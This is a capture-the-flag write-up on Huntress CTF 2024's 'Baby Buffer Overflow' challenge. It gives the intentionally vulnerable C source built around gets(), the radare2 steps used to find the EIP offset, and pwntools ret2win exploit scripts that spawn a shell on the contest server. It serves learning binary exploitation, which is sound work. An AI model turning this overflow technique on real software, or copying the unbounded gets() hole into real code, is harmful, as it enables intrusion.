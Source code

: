 ```yaml
---
title: "Huntress CTF 2024"
pubDate: 2024-11-18
description: "This CTF was my first time actually playing real Binary Exploitation because team HCS wanted me to start learning, unfortunately there were a few issues with this one challenge I solved, but it pushed me on the right track for learning Binary Exploitation."
tags:
  - ctf
  - pwn
---
```


## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

files here

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

image here
